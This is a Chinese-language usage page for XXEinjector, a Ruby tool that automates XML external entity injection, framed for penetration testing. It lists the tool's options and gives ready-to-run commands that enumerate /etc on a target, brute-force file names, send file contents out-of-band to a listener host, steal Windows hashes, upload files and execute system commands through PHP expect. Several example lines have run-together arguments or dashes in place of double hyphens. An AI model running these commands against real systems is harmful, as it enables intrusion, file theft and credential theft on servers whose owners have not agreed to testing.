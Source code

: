 ```yaml
---
title: "XXEinjector 自动化XXE注射工具"
id: zhfly3594
---
```


## XXEinjector 自动化XXE注射工具

https://github.com/ianxtianxt/XXEinjector

> XXEinjector本身提供了非常非常丰富的操作选项，所以大家在利用XXEinjector进行渗透测试之前，请自习了解这些配置选项，以最大限度地发挥XXEinjector的功能。当然了，由于XXEinjector是基于Ruby开发的，所以Ruby运行环境就是必须的了。

```
--host     必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file      必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path           必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute          必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger        记录输出结果。
--rhost          远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport          远程主机的TCP端口信息。(--rport=8080)
--phpfilter    在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc     使用netdoc协议。(Java).
--enumports   枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes       窃取运行当前应用程序用户的Windows哈希。
--expect        使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload       使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt      XSLT注入测试。
--ssl              使用SSL。
--proxy         使用代理。(--proxy=127.0.0.1:8080)
--httpport Set自定义HTTP端口。(--httpport=80)
--ftpport       设置自定义FTP端口。(--ftpport=21)
--gopherport  设置自定义gopher端口。(--gopherport=70)
--jarport       设置自定义文件上传端口。(--jarport=1337)
--xsltport  设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test     该模式可用于测试请求的有效。
--urlencode     URL编码，默认为URI。
--output       爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout     设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout  设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast     跳过枚举询问，有可能出现结果假阳性。
--verbose     显示verbose信息。 
```

## XXEinjector使用样例

枚举HTTPS应用程序中的/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl 
```

使用gopher（OOB方法）枚举/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher 
```

二次漏洞利用：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt 
```

使用HTTP带外方法和netdoc协议对文件进行爆破攻击：

```
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc 
```

通过直接性漏洞利用方式进行资源枚举：

```
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK 
```

枚举未过滤的端口：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all 
```

窃取Windows哈希：

```
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes 
```

使用Java jar上传文件：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf 
```

使用PHP expect执行系统指令：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls 
```

测试XSLT注入：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt 
```

记录请求信息：

```
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt 
```